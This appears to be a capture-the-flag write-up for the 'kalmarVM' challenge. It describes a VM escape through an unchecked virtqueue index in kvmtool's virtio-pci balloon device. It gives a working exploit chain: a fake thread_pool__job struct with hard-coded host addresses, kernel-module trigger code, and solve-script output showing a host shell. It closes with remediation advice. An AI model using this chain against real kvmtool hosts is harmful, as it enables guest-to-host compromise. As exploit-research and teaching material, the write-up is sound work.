

# kalmarVM
## Summary

This challenge provides root access to a Linux VM, managed by a Linux host.
The challenge is to escape the VM, and get code execution on the Linux host via
a real vulnerability in the `kvmtool` `virtio-pci` interface. The vulnerability
is a guest-controlled, out-of-bounds read which allows arbitrary code execution
in the host `lkvm` process.


**Challenge Artifacts:**
* `chall/bzImage`: A compiled 6.13.4 Linux Kernel, used as the guest OS
* `chall/initramfs.cpio.gz`: A minimal RAM disk image used for the guest VM
* `lkvm-static`: A statically compiled version of the `kvmtool` source, on commit
`e48563f5c4a48fe6`
* `run.sh`: A wrapper script for the Linux host that launches a new guest VM using
`lkvm` when a connection arrives.
* `docker-compose.yml`, `Dockerfile`, and `Dockerfile.build`: Docker environment
scripts used to build and launch the challenge

**Solution Artifacts:**
* `solve.py`: Python script that builds and delivers payload kernel module to
the target guest VM
* `payload_module/`: Source code and Makefile for the payload Linux Kernel
module that performs the VM escape
* `linux-skel/`: Makefile, Dockerfile, and script to clone and build 6.13.4 Linux
kernel as required for payload module compilation

## Context

The `kalmarVM` authors provide root access to a guest Linux VM,
managed by a Linux host using KVM as a hypervisor and
[kvmtool](https://github.com/kvmtool/kvmtool) as a VMM. With root access, we have
full control over the guest OS, including loading arbitrary kernel code. The guest
doesn't have any networking interface, and our only interaction is via a TCP
connection to the host, piped into the VMM's `virtio` console.

The host runs the guest VM with a compiled 6.13.4 Linux Kernel, a basic RAM disk,
and three `virtio` devices:
```bash
$ ./lkvm-static run \
	-c 1 \
	-m 128 \
	-k ./bzImage \
	-i ./initramfs.cpio.gz \
	--rng \
	--console virtio \
	--balloon
```
The userspace `lkvm` application emulates each of the `virtio` devices: a random
number generator, a console, and a balloon device (used by the host to put memory
pressure on the guest if necessary).

The `lkvm` binary itself is a 64-bit x86 ELF
executable with NX/stack canaries, partial RELRO, and run in an environment with
ASLR. Position independence (PIE) is disabled, so addresses (e.g. functions and
global variables) from the binary itself are available. Since `kvmtool` is open
source and the compile commit is known, it is possible to clone the source code
and do source-level debugging.
```bash
$ checksec chall/lkvm-static
Arch:   	amd64-64-little
RELRO:  	Partial RELRO
Stack:  	Canary found
NX:     	NX enabled
PIE:    	No PIE (0x400000)
Stripped:   No
```

## Vulnerability

The `kvmtool` code has an out-of-bounds read vulnerability in the virtqueue
notification handling of the PCI-based `virtio` balloon device emulator,
at line 235 of `virtio/balloon.c`, which can be combined with an in-bounds write
to get code execution. This vulnerability is quite similar to
[CVE-2021-45464](https://nvd.nist.gov/vuln/detail/CVE-2021-45464), discovered
in KalmarCTF 2023.

The core vulnerability is in the [`notify_vq` function](https://github.com/kvmtool/kvmtool/blob/e48563f5c4a48fe6a6bc2a98a9a7c84a10f043be/virtio/balloon.c#L231), which is called by `virtio_pci__notify_write` when the
guest triggers a previously-registered `mmio` callback by writing to a dedicated
memory-mapped I/O region in the guest physical address (GPA) space. This mechanism
is normally used by guest `virtio` kernel drivers to 'kick' their corresponding
back-end device, letting the device know that there is fresh data in a `virt_queue`
(a shared structure in the GPA space). The front-end (guest) driver indicates which
queue the back-end (host) device should check with a 32-bit index, `u32 vq`.

A non-malicious balloon driver would use this kind of notification to let the device
know that it had successfully acquired/given up new pages in the guest ('inflated'
or 'deflated', respectively), or that it had placed requested statistics in the
`stats` virtqueue.

To handle these events asynchronously, the back-end balloon device emulator (which
runs in the host user address space) retrieves a `struct thread_pool__job` pointer
from a global array of 'job' structures (indexed by `vq`), and enqueues this
pointer into a work queue for a background threads to pick up:
```C
static int notify_vq(struct kvm *kvm, void *dev, u32 vq)
{
	struct bln_dev *bdev = dev;

	thread_pool__do_job(&bdev->jobs[vq]);

	return 0;
}
```

However, neither the back-end balloon device or the `virtio-pci` framework check
to ensure that the guest-provided `u32 vq` is in-bounds or associated with a real
virtqueue. A malicious guest can provide a `vq` larger than expected, and cause
the `thread_pool__do_job` function to execute with a pointer up to

```C
sizeof(struct thread_pool__job)*0xFFFFFFFF = 0x57FFFFFFA8
```

bytes beyond the global `bdev->jobs` array.


This out-of-bounds read by itself allows the guest to crash the VMM in the host
userspace. More importantly, when paired with a legitimate guest write that places
guest-controlled bytes soon after the global array, the guest can provide a malicious
job structure and get the backend driver to execute that job. A job that indirectly
calls `execve` can give the guest arbitrary code execution on the host.

## Exploitation

### Overview
Exploiting this vulnerability requires interacting with back-end devices through
linearly-mapped guest physical memory, which is only reasonable to do from guest
kernel-mode. So, my exploit payload for this challenge is a malicious kernel module
delivered over TCP and inserted into the guest kernel.

The payload module first sends a malicious `struct thread_pool__job` structure hidden
in a legitimate virtqueue transfer, which `lkvm` stores in host virtual memory just
after the target `jobs` array. Then, the module triggers an mmio notification on
an out-of-bounds virtqueue, which causes the host `virtio` emulator to execute the
malicious job in a background thread. The malicious job indirectly calls `execve`,
converting the `lkvm` process into a shell on the host machine.

The exploit is wrapped by a Python script `solve.py`, which builds and delivers
the payload module.

### 1. Payload Compilation and Delivery
The only interaction we have with the guest VM is a `virtio` console piped into
a TCP connection on the host. Since the guest VM doesn't have internet, we need
to deliver the payload module via the shell. In addition, since the VM doesn't have
the required dependencies to compile a kernel module, we must compile the module
locally and transmit the binary.

The `solve.py` script compiles the kernel module by calling the local `Makefile`,
which first builds `linux-skel/` (the 6.13.4 kernel prerequisites for module compilation)
if it has not already been built. The build creates an Ubuntu container, which downloads
required build tools, clones the appropriate kernel source, configures it using
a default x86_64 config, and runs the `modules_prepare` target to produce all artifacts
required for compiling an external module (this doesn't require compiling the kernel
itself). The build container then prunes unnecessary artifacts and copies the rest
into the `linux-skel` directory.

With these artifacts compiled, the local Makefile uses the skeleton 6.13.4 Linux
kernel Makefiles to compile `payload_module/escape_mod.c` into a binary kernel module,
`escape_mod.ko`. The runner script `solve.py` then chunks this binary into a series
of  `printf` shell commands executed on the guest VM to reassemble the module. Then
the module can be inserted with `insmod` into the guest OS, triggering the payload
and escape sequence.

While downloading the 6.13.4 kernel source for the first time is slow, subsequent
payload compilation and delivery only takes few seconds, and allows running arbitrary
guest kernel code.

### 2. Construct Malicious Job in Guest Virtual Memory

The first stage of the VM escape is constructing the `struct thread_pool__job` payload
in guest virtual (kernel) memory. This payload should, if passed as a parameter
to the `lkvm` `thread_pool__do_job` function, convert the `lkvm` process into a
remote shell.

The later delivery mechanism will copy our payload bytes to the `stats` element
of the global `static struct bln_dev bdev` structure in the `lkvm` host address
space. The `stats` array is normally used to allow the guest balloon driver to
report guest memory statistics to the host, and so effectively provides a few
hundred guest-controlled bytes in the host kvmtool memory.

Examining the `bln_dev` struct shows that the `stats` array happens to sit directly
after the `jobs` array (which is the array whose bounds we overflow), 
so it is an ideal location to drop a payload that the final vulnerability will
launch:
```C
struct bln_dev {
	struct list_head	list;
	struct virtio_device	vdev;

	/* virtio queue */
	struct virt_queue	vqs[NUM_VIRT_QUEUES];
	struct thread_pool__job	jobs[NUM_VIRT_QUEUES];

	// offset of stats into struct bln_dev: 0x268
	struct virtio_balloon_stat stats[VIRTIO_BALLOON_S_NR];
	struct virtio_balloon_stat *cur_stat;
	u32        	cur_stat_head;
	u16        	stat_count;
	int        	stat_waitfd;

	struct virtio_balloon_config config;
};

// &bdev = 0x052E960
static struct bln_dev bdev;
```

Since the `lkvm` binary does not have PIE, we can statically retrieve the address
of `bdev`, `&bdev = 0x052E960`. We can also find the offset of the `stats` array
into the `bln_dev` struct (`0x268` bytes) and the maximum size of the array
(`0x82=130d` bytes).

Knowing these values and the address of a function `virtio_net_exec_script(char *script, char *tag)`
that wraps a call to `execve`, we can construct a payload that shadows the `thread_pool__job`
struct from `kvmtool` to launch `"/bin/sh"`:
```C
typedef void (*kvm_thread_callback_fn_t)(void *kvm, void *data);

// Mirrors struct thread_pool__job struct from kvmtool, with additional 8 bytes for "/bin/sh"
struct thread_pool__job
{
	kvm_thread_callback_fn_t callback; 		// Function pointer: virtio_net_exec_script(char *script, char *tag)	[8 bytes]
	void *kvm;                           	// First argument: pointer to arg_str that holds "/bin/sh"             	[8 bytes]
	void *data;                           	// Second argument: NULL                                             	[8 bytes]       	 

	int signalcount;                   		// Threads already processing job, set to 0                         	[4 bytes]
	char padding[4];                		// Alignment padding                                                	[4 bytes]
	char mutex[40];                    		// Job mutex, must start in unlocked state                             	[40 bytes]

	struct list_head queue;         		// List entry for job queue, point to ourselves to keep valid        	[16 bytes]
    
};    	// Overall 88 bytes

struct job_payload {
	struct thread_pool__job job;
	char arg_str[8];                 		// Additional bytes to store "/bin/sh", pointed to by job.kvm        	[8 bytes]
};	// Overall 96 bytes
```

This payload includes a `struct thread_pool__job` with a callback which we set to
the address of `virtio_net_exec_script`. The `kvm` and `data` pointers will be passed
as the two arguments of that callback, so we set `kvm` to point to `&bdev` plus
the offset of `stats` into `struct bln_dev` plus the offset of `arg_str` into `struct job_payload`.
The second argument and thus `data` can be NULL.

The `signalcount`, `padding`, and `mutex` variables can all be initialized to zeros,
which represents a job that has not been completed (`int signalcount = 0`) and is
not currently being processed (`struct mutex mutex` unlocked).

The `queue` list entry represents a node in the linked list of all jobs which need
processing. To maintain a valid list without additional knowledge of existing entries,
we can just set the `prev` and `next` pointers of the queue node to the queue node
itself: `&bdev` plus the offset of `stats` plus the offset of `queue` into `struct thread_pool__job`.

Finally, the payload `arg_str` string is the script we want to execute, and so should
be set to `/bin/sh`.

The overall payload structure is 96 bytes, which is comfortably within the limits
of the stats array (130 bytes). During the first phase of the exploit, we only construct
this in guest kernel memory, but if delivered appropriately (i.e. copied into `stats`
and passed as an argument to `do_thread_pool__job`), this payload will fork `lkvm`
and launch a child `/bin/sh` shell on the host machine, with the parent process
paused until the shell exits.

### 3. Send Malicious Job via Stats Virtqueue
With a payload constructed in guest kernel memory, the next step is to get the payload
copied into the global `bln_dev` structure in `lkvm`, such that it is accessible
with the later out-of-bounds access. To do this, we use a legitimate communication
mechanism between the guest balloon driver and its host device: the stats virtqueue.

A virtqueue/vring is a generic mechanism for bulk communication between a virtio
frontend driver and backend device, that passes data in the guest physical address
space to the VMM. Since virtqueues are optimized for large, fast data transfers
their structure is complex and includes multiple levels of indirection. For a full
description, see the [virtio spec](https://docs.oasis-open.org/virtio/virtio/v1.2/csd01/virtio-v1.2-csd01.html#x1-270006),
but for our purposes it is enough to know the general procedure for using them:
the guest kernel constructs data to transfer in guest *virtual* memory, then translates
the addresses of that data into guest *physical* addresses, and writes those to
fields in a special, memory-mapped (virtio-pci `mmio`) configuration region of the
guest physical address space.

The `construct_outgoing_vring` and `notify_stats_vring` functions in `payload_module/escape_mod.c`
perform this operation, using the balloon device's 'stats' `vring`, usually used
for passing guest memory statistics back to the host. The `construct_outgoing_vring`
function takes in a guest kernel buffer, packages it into the appropriate `vring`
structure, and passes that structure to `notify_stats_vring`. This function calculates
the exact location of the `mmio` config region based on constants from `kvmtool`,
and writes translated `vring` addresses into the appropriate config variables.
Finally, it 'kicks' the back-end device, indicating it should drain the `vring`.

At this point, the back-end device (`lkvm`) will read from the `vring`, and copy
the payload job from the provided guest physical address into the `bdev->stats`
array, assuming it is an array of `struct virtio_balloon_stat` elements. The payload
is now present in the host virtual address space, ready for the final trigger to
launch it.

### 4. Trigger Out-of-Bounds Read
Compared to the previous steps, the final trigger is fairly simple. We again will
use the virtqueue interface, but since we are only interested in executing the
`notify_vq` function (triggered when a `vq` is 'kicked') with an out-of-bounds
`u32 vq` parameter, we don't need to actually construct a `vring`.

Instead, we simply write to the special `mmio` config region with the maximum expected
`vq` value plus 1, since the `stats` array sits directly after the `jobs` array
in the `struct bln_dev` structure:
```C
// Trigger the VM escape by overflowing the expected vq number
static int trigger_escape(void)
{
	volatile void *mmio_base = ioremap(KVM_PCI_MMIO_AREA, PAGE_SIZE);

	*(volatile uint16_t *)(mmio_base + VPCI_CFG_NOTIFY_START) = VIRTIO_BALLOON_VQ_STATS + 1;

	iounmap((void *)mmio_base);

	printk(KERN_INFO "[ESCAPEMOD] sent escape!\n");
    
	return 0;
}
```

When this function is called, the `notify_vq` function will execute in the host
virtual address space, calling `thread_pool__do_job(&bdev->jobs[vq])` with `u32 vq = 3`,
where the maximum expected value of `vq` is 2. As a result, the pointer `&bdev->jobs[3]`
will end up equal to the `&bdev->stats` pointer, where the previous stage dropped
our `struct job_payload` structure. As soon as a background thread picks up the
job and executes it, the thread will execute `thread_pool__handle_job` from `virtio/threadpool.c:55`.
In this function, the line `job->callback(job->kvm, job->data)` will be equivalent
to
```C
virtio_net_exec_script("/bin/sh", NULL)
```
and the remote shell will launch on the host:



## Exploit Primitives

- **Guest-controlled host write** – the legitimate *stats* virtqueue copies an arbitrary guest buffer into the host’s `bdev.stats` array, giving a reliable ~130-byte write just past `bdev.jobs`.

- **Fixed-address knowledge** – `lkvm` is built without PIE, so absolute addresses such as `&bdev` and `virtio_net_exec_script()` are known and can be hard-coded into the payload.

- **Out-of-bounds virtqueue index** – writing an out-of-range `vq` ( `VIRTIO_BALLOON_VQ_STATS + 1` ) to the *notify* MMIO register makes `thread_pool__do_job()` fetch a job pointer that lands inside the attacker-controlled `stats` buffer.

- **Malicious `thread_pool__job` structure** – by populating that buffer with a fake job whose `callback` points to `virtio_net_exec_script()` and whose first argument points to the string `"/bin/sh"`, the payload turns the host’s worker thread into an implicit `execve("/bin/sh", …)` gadget.


## Remediation
Remediation for this exact bug would be straightforward: add a bounds check to the
`u32 vq` input in the `notify_vq` function (or preferably, earlier in the overall
`virtio-pci` framework).

However, the more general problem with the `kvmtool` codebase (which probably includes
more bugs like this one, many of which are probably less obvious) is a lack of discipline
around guest-provided inputs. In a secure hypervisor, *everything* passed from the
guest should be considered untrusted, and should be subject to sanity checks.

## Configuration Notes

To launch a local instance of the challenge, use the provided `docker compose`
script:
```bash
$ cd chall/
$ docker compose up
```

Then, in a separate shell launch the `solve.py` script, which should handle all
compilation and transmission:
```bash
$ python3 solve.py
make -C linux-skel/
<cut make output>
make -C payload_module/
<cut make output>
Press Enter to start remote...
[+] Opening connection to localhost on port 1337: Done
Press Enter to transmit payload...
Transmitting 61 commands...
Transmitting payload: 100%|███████████████████████████████████████████████████████████████████████████████████████████████████████| 61/61 [00:02<00:00, 23.51it/s]
Press Enter to insert module...
[*] Switching to interactive mode
 insmod /root/escape_mod.ko
[	5.615264] escape_mod: loading out-of-tree module taints kernel.
[	5.615700] [ESCAPEMOD] Loading module
[	5.617574] [ESCAPEMOD] sent stats buffer
[	5.617695] Virtio PCI Common Config:
[	5.617778]   device_feature_select: 0x00000001
[	5.617892]   device_feature: 0x00000001
[	5.617982]   guest_feature_select: 0x00000001
[	5.618081]   guest_feature: 0x00000001
[	5.618147]   msix_config: 0x0000
[	5.618211]   num_queues: 0x0003
[	5.618276]   device_status: 0x0f
[	5.618355]   config_generation: 0x00
[	5.618414]  
[	5.618414] VQ Specific:
[	5.618489]   queue_select: 0x0002
[	5.618588]   queue_size: 0x0080
[	5.618655]   queue_msix_vector: 0xffff
[	5.618732]   queue_enable: 0x0001
[	5.618816]   queue_notify_off: 0x0002
[	5.618911]   queue_desc: 0x000000000207c000
[	5.619012]   queue_avail: 0x000000000207d000
[	5.619104]   queue_used: 0x000000000207e000
[	5.619195] [ESCAPEMOD] sent escape
[	5.619317] [ESCAPEMOD] Attempted escape
~ # $ ls
bin  	flag-f63763ec01024462da9a59087e007260.txt  lkvm-static  root	sys
boot 	home                                   	media    	run 	tmp
bzImage  initramfs.cpio.gz                      	mnt      	run.sh  usr
dev  	lib                                    	opt      	sbin	var
etc  	lib64                                  	proc     	srv
$ cat flag-*.txt
kalmar{redacted}
$
```
